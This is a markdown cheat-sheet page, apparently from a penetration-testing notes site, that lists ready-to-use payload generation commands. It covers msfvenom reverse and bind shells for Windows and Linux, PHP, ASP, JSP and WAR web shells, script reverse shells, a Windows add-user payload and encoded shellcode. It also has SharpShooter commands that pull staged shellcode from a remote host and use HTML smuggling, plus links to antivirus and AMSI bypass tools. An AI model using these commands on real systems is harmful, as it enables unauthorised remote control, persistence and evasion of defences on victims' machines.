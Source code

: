 ```yaml
---
layout: default
title: Payloads
category: exploitation
toc:
  sidebar: left
---
```


# Payloads

---

## msfvenom

---

```sh
# Creating a payload
msfvenom -p [payload] LHOST=[listeninghost] LPORT=[listeningport]

# List of payloads
msfvenom -l payloads

# Payload options
msfvenom -p windows/x64/meterpreter_reverse_tcp --list-options

# Creating a payload with encoding
msfvenom -p [payload] -e [encoder] -f [formattype] -i [iteration]  > outputfile

# Creating a payload using a template
msfvenom -p [payload]  -x [template] -f [formattype] > outputfile

# Listener for MSfvenom Payloads:
msf5>use exploit/multi/handler
msf5>set payload windows/meterpreter/reverse_tcp
msf5>set lhost
msf5>set lport
msf5> set ExitOnSession false
msf5>exploit -j

#  Windows Payloads
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe
msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe
msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe

#  Linux Payloads
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf
msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf
msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf

# Add a user in windows with msfvenom:
msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe

#  Web Payloads
# PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST= LPORT= -f raw > shell.php
cat shell.php | pbcopy && echo shell.php && pbpaste >> shell.php

# ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f asp > shell.asp

# JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f raw > shell.jsp

# WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f war > shell.war

#  Scripting Payloads

# Python
msfvenom -p cmd/unix/reverse_python LHOST= LPORT= -f raw > shell.py

# Bash
msfvenom -p cmd/unix/reverse_bash LHOST= LPORT= -f raw > shell.sh

# Perl
msfvenom -p cmd/unix/reverse_perl LHOST= LPORT= -f raw > shell.pl

# Creating an Msfvenom Payload with an encoder while removing bad charecters:
msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata_ga_nai -b "\x0A\x0D"
```

<br>

- ##### [windows defender bypassing for meterpreter](https://hacker.house/lab/windows-defender-bypassing-for-meterpreter/)<br><br>

### Bypass AV

---

- ##### [Veil Framework](https://github.com/Veil-Framework/Veil)<br>
- ##### [Shellter](https://www.shellterproject.com/)<br>
- ##### [Donut](https://github.com/TheWover/donut)<br>
- ##### [Vulcan](https://github.com/praetorian-code/vulcan)<br>

<br>

- ##### [Sharpshooter:](https://github.com/mdsecactivebreach/SharpShooter)

```sh
# Javascript Payload Stageless:
SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3

# Stageless HTA Payload:
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee

# Staged VBS:
SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4
```

<br>

## Bypass Amsi

---

- ##### [Testing for Amsi Bypass](https://github.com/rasta-mouse/AmsiScanBufferBypass)<br><br>

- ##### Amsi-Bypass-Powershell:

  - [Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
  - [hunting-for-amsi-bypasses](https://blog.f-secure.com/hunting-for-amsi-bypasses/)
  - [exploring-powershell-amsi-and-logging-evasion](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/)
  - [Conducting-AMSI-Scans](https://github.com/cobbr/PSAmsi/wiki/Conducting-AMSI-Scans)
